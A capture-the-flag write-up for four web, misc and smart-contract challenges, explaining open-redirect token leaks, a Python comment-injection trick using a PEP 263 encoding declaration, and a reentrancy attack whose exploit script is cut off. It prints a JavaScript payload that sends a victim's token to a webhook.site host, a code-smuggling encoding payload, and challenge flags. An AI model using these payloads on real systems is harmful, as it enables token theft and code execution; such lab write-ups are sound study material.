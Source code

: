## [web, beginner] wooorker (03:11, 78 pt, 186 teams solved)

The report page sends the admin to the login page, which then redirects to `$next/?token=$token`. So we set the login URL to `login?next=https://webhook.site/<REDACTED>` and so we get the flag.

The flag is `ctf4b{0p3n_r3d1r3c7_m4k35_70k3n_l34k3d}`.

## [web, medium] wooorker2 (03:18, 98 pt, 106 teams solved)

The report page sends the admin to the login page, which then redirects to `$next/#token=$token`. So we set the login URL to `login?next=http://ourcustompage`, which rewrites the URL.

```html
<script>
        window.location.href='https://webhook.site/<REDACTED>?url='+window.location.href.replace('#','?');
</script>
```

The flag is `ctf4b{0p3n_r3d1r3c7_m4k35_70k3n_l34k3d}`.

## [misc, easy] commentator (05:09, 114 pt, 75 teams solved)

Since we can only write comment, we must find a way to smuggle a line break into the script file.

Combining [PEP-0263](https://peps.python.org/pep-0263/) and [Standard Encodings](https://docs.python.org/3.10/library/codecs.html#standard-encodings), we have a payload like this.

```
encoding: raw_unicode_escape
\u000A<any code we want to execute>
\u000A<more code we want to execute>
__EOF__
```

The flag is `ctf4b{c4r3l355_c0mm3n75_c4n_16n173_0nl1n3_0u7r463}`.

## [misc, easy] vote4b (08:22, 341 pt, 6 teams solved)

This is a classical reentrancy attack problem. We read the [source code of `_safeMint`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC721/ERC721.sol#L295-L316), and see that it calls `ERC721Utils.checkOnERC721Received`, which calls the `onERC721Received` on `msg.sender`.

Therefore, we simply implement the `IERC721Receiver` interface and `onERC721Received` method on `msg.sender`, to do reentrancy attack.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.25;

import {VmSafe} from "forge-std/Vm.sol";
import {Script} from "forge-std/Script.sol";
import {Ballot} from "../src/Ballot.sol";
import {Setup} from "../src/Setup.sol";
import {IERC721Receiver} from "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

contract Exploit is Script {
    Setup public chall;
    VmSafe.Wallet public solver;

    function setUp() public {
        chall = Setup(/* chall address */);
        solver = vm.createWallet(/* wallet address */);
    }
```